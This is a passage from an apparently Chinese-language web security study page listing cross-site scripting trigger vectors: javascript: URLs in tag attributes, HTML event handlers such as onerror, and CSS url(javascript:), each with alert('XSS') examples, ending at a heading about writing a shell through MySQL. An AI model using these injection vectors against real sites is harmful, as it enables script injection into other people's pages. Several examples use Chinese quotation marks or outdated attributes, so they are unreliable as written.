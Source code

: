 ### 利用HTML标签属性触发

利用HTML标签中能够访问文件的属性来执行JS代码。JS中包含一个URL伪协议，可以使用`javascript:`加上任意JS代码来表示一个URL，浏览器装载此URL时，JS被执行。包括：`src、href、dynsrc、longdesc、lowsrc`等属性。

```html
<img src=“javascript:alert(‘XSS’)” />
<img dynsrc=“javascript:alert(‘XSS’)” />
<img longdesc=“javascript:alert(‘XSS’)” />
<input src=“javascript:alert(‘XSS’)” />
<embed src=“javascript:alert(‘XSS’)” />
<a href=“javascript:alert(‘XSS’)” ></a>

```

### 利用HTM事件触发

HTML标签中定义了一系列事件，如：鼠标、键盘事件触发的事件，当满足一定条件时事件被触发，JS代码被执行。如标签中的`onError`事件，当图片载入失败时， `onError`被触发，JS代码被执行。

```html
<img src=“#” onerror=“alert(‘XSS’)” />
<img onClick =“alert(‘XSS’)” />
<img onDblClick =“alert(‘XSS’)” />
<img onMouseDown =“alert(‘XSS’)” />
<img onMouseMove =“alert(‘XSS’)” />
<img onMouseUp =“alert(‘XSS’)” />
<body onError=“alert(‘XSS’)” /></body>

```

### 利用CSS触发
**注意中英文标点,这个是直接复制的存在中文符号,没有修改**
CSS嵌入HTML中的三种方式：

1.  以.css文件的形式:

```html
<link href=“test.css” rel=“stylesheet” type=“text/css”/>

```

2.  以标签的方式:

```html
< style type=”text/javascript”>alert(‘XSS’);</ style >

```

3.  在标签中以style属性的方式: (url伪协议)

```html
<a style =”background-image: url(javascript:alert(‘XSS’))”>  </a>
```

## MySQL写shell有几种方法？

